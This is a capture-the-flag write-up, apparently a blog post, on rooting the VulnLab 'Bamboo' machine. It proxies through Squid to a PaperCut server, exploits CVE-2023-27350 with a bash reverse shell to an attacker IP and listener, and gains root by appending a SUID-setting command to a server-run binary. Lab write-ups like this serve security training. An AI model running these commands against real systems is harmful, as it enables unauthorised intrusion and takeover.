

# Bamboo

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Bamboo** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3128 --min-rate=1000 10.10.110.40
```



> Notice that we have the squid port open which mean we can scan the internal ports
> 

Now let’s scan the internal ports

```bash
./squidscan
```


Now let’s add the proxy to our proxy configurations 

```bash
http 10.10.110.40 3128
```


Now let’s curl the new port

```bash
curl --proxy http://10.10.110.40:3128 http://10.10.110.40:9191 -v
```


Now let’s search for a CVE for this


now let’s gain RCE

First open a listener

```bash
nc -lvnp 1337
```


now let’s run the CVE

```bash
proxychains -q python3 CVE-2023-27350.py -u "http://10.10.110.40:9191" -c "bash -i >& /dev/tcp/10.8.5.233/1337 0>&1"
```


now let’s see the listener


and we got a shell

Now let’s stabilize the shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


Now let’s hit CTRL + Z


now let’s go and type this

```bash
stty raw -echo;fg
```


Now exporting tty

```bash
export TERM=xterm
```


now let’s forward the port 9191

```bash
ssh -L 9191:127.0.0.1:9191 papercut@10.10.110.40
```


now let’s access the website


now let’s search for authentication bypass vuln


we found on so let’s abuse it

```bash
python3 bypass.py
```


now let’s see if we bypassed the auth 


and we did!

now let’s do it again and monitor with pspy64

```bash
./pspy64
```


notice that there is a binary named server-command is executed so let’s overwrite it

```bash
echo "chmod +s /bin/bash" >> /home/papercut/server/bin/linux-x64/server-command
```


now go back to the website and click refresh servers 


Now let’s see the SUID binary on /bin/bash 

```bash
ls -als /bin/bash
```


now let’s exploit it

```bash
/bin/bash -p
```


notice that we got root access so let’s go and see the root flag

```bash
cd /root;ls -las
```


Amazing we got the root flag 🥳


That’s it for the **Bamboo** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX